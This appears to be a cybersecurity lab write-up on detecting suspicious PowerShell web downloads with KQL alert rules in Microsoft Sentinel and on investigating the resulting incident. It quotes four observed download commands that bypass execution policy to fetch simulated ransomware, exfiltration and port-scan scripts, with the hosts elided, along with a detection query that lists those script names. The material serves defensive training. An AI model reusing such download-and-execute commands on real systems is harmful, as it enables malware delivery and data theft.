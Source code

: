 # ⚠️ Incident Response Lab: PowerShell Suspicious Web Request

**Author**: Jason Nguyen  
**Date**: June 2025  
**Scenario**: Post-exploitation detection using PowerShell logging and scheduled alerts in Microsoft Sentinel  
**Based on**: [Josh Madakor’s Cyber Range](https://github.com/joshmadakor1/lognpacific-public)

---

## 🧰 Tools and Technologies

* **Microsoft Sentinel** (SIEM)
* **Microsoft Defender for Endpoint** (EDR)
* **Log Analytics Workspace** (LAW)
* **KQL (Kusto Query Language)**
* **PowerShell**

---

## 🧠 Scenario Overview

In real-world attacks, adversaries often use built-in tools like PowerShell to download payloads from external sources—blending malicious activity with legitimate system processes. This lab explores how to detect such behavior by creating KQL-based scheduled alerts in Microsoft Sentinel to identify suspicious use of `Invoke-WebRequest`.

---

## 🔍 Part 1: Create a Scheduled Alert Rule

### 📌 Goal
Detect when PowerShell executes `Invoke-WebRequest` on a specific endpoint (`windows-target-1`), potentially indicating malicious behavior.

### 🧪 Attempted KQL (Initial Query)
```kql
DeviceProcessEvents
| where DeviceName == "windows-target-1"
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated desc
````

✅ This returned **no results in the last 7 days**.

### ✅ Working Query (Adjusted Time Range)

```kql
let TargetHostname = "windows-target-1";
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| where TimeGenerated > ago(30d)
| order by TimeGenerated
```

This query detected the download of 4 scripts previously used in earlier labs: `pwncrypt.ps1`, `eicar.ps1`, `portscan.ps1`, and `exfiltratedata.ps1`.

### 📌 Key Terminology

* `InitiatingProcessCommandLine`: Refers to the **parent process** that launched PowerShell.
* `ProcessCommandLine`: Refers to the **child process** (i.e., the PowerShell script or command being run).

---

### ⚙️ Alert Rule Configuration

| Setting                | Value                                                                        |
| ---------------------- | ---------------------------------------------------------------------------- |
| **Rule Name**          | PowerShell Suspicious Web Request                                            |
| **Rule Type**          | Scheduled Query Rule                                                         |
| **Query**              | See below                                                                    |
| **Frequency**          | Every 4 hours                                                                |
| **Lookup Period**      | Last 14 days                                                                 |
| **Entity Mapping**     | Account → Account Name<br>Host → Device Name<br>Process → ProcessCommandLine |
| **Threshold**          | Alert if count > 0                                                           |
| **Suppression**        | Stop alerting for 24 hours after hit                                         |
| **Incident Creation**  | Enabled                                                                      |
| **MITRE ATT\&CK Tags** | T1059.001, T1203, T1071.001, T1105, T1041                                    |

### 🔎 Final Rule Query

```kql
DeviceProcessEvents
| where DeviceName == "windows-target-1"
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated desc
```

---

## 🚨 Part 2: Trigger Alert to Create Incident

No custom VM used. I leveraged the logs from `windows-target-1`, which had existing activity from automated attacks.

---

## 🛠️ Part 3: Incident Investigation and Response

### 🧾 Incident Summary

**Incident Name**: `J - PowerShell Suspicious Web Request`
**Device**: `windows-target-1`
**Triggered by**: A single user executing 4 PowerShell download commands.

//![entity-mapping](Link coming soon)

### 🔗 Malicious Commands Detected:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../pwncrypt.ps1 -OutFile C:\ProgramData\pwncrypt.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../exfiltratedata.ps1 -OutFile C:\ProgramData\exfiltratedata.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../portscan.ps1 -OutFile C:\ProgramData\portscan.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../eicar.ps1 -OutFile C:\ProgramData\eicar.ps1
```

👤 **User Interview Summary**:
User claimed to be installing free software but saw only a black screen. No GUI feedback. Suspicious behavior noted.

### 🧪 KQL Script Execution Validation

```kql
let TargetHostname = "windows-target-1";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
```

✅ Confirmed that each script was executed post-download.

//![image](Coming soon)

### 📄 Script Behavior Summaries (Generated via AI):

| Script               | Description                                                                |
| -------------------- | -------------------------------------------------------------------------- |
| `pwncrypt.ps1`       | Simulates ransomware by encrypting fake files and placing ransom notes.    |
| `exfiltratedata.ps1` | Generates and uploads mock sensitive data to cloud storage (simulated C2). |
| `portscan.ps1`       | Performs local subnet scans for open ports and active hosts.               |
| `eicar.ps1`          | Creates EICAR antivirus test file to trigger malware alerts.               |

---

## 🧯 Containment, Eradication, Recovery

* ✅ **Isolated** the affected VM from the network.
* ✅ **Ran** full antivirus scan using Microsoft Defender for Endpoint.
* ✅ **Restored** system after scan returned clean.

---

## 📚 Post-Incident Actions

* 🧑‍🏫 User completed cybersecurity awareness retraining.
* 🛡️ Upgraded awareness program with KnowBe4.
* 🔒 Initiated policy restricting PowerShell to admin users only.
* 🗓️ Increased training frequency for all employees.

---

## ✅ Closure

* Incident marked as **True Positive**
* Activity log updated in Microsoft Sentinel
* Alert rule deleted after analysis
* Lessons learned documented

![sentinel-incident-activity-log](Link coming soon)

---

## 📌 MITRE ATT&CK Mapping

| Tactic            | Technique ID | Technique Name                    |
| ----------------- | ------------ | --------------------------------- |
| Execution         | T1059.001    | PowerShell                        |
| Initial Access    | T1203        | Exploitation for Client Execution |
| Command & Control | T1071.001    | Web Protocols                     |
| Command & Control | T1105        | Ingress Tool Transfer             |
| Exfiltration      | T1041        | Exfiltration Over C2 Channel      |

---

> 🧪 *This lab reinforced detection techniques for abuse of legitimate tools like PowerShell in post-exploitation phases. It also emphasized the need for baseline behavior monitoring, entity mapping, and structured incident response in Sentinel.*


